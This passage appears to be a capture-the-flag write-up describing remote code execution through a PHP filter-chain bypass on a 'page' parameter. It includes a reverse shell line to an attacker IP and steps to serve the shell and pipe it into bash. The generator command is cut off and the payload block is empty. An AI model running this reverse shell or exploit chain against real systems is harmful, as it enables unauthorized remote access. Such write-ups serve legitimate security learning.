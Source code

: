 
![[got developers home page.png]]

From here we can easily get remote code execution , see there is a ID parameter

The "page" parameter on this website appears to be dubious, and we can attempt to fuzz for Remote Code Execution (RCE) or Local File Inclusion (LFI) vulnerabilities. Despite the page being devoid of useful content, the page parameter changes each time we visit a different website, which raised some suspicion. However, I was unsuccessful in obtaining any LFI that would enable me to read other files. I surmised that there must be some sort of backend check on this parameter. I subsequently came across a PHP Filter bypass technique on Hacktricks that demonstrated that RCE was feasible through that parameter. The provided tool, php_filter_chain_generator, worked flawlessly. However, there was a length constraint that was causing the request to crash, so we opted to use PHP Shorthand Code, which employs the   tags as a shorthand for PHP code. Since we now have RCE, we can store the shell on my web server instead.

Ref link : https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html?ref=hacktrickz.xyz

https://github.com/synacktiv/php_filter_chain_generator?ref=hacktrickz.xyz

Create a bash script for shell and name shell.sh

~~~
/bin/sh -i >& /dev/udp/10.10.14.120/1234 0>&1
~~~

Give it execute permission (chmod +x) and host the file via a web server (python -m http.server 80)

The next step is to curl the file and pipe it over to bash, so it gets executed: 

~~~
python3 php_filter_chain_generator.py --chain '
~~~

Payload :

~~~
~~~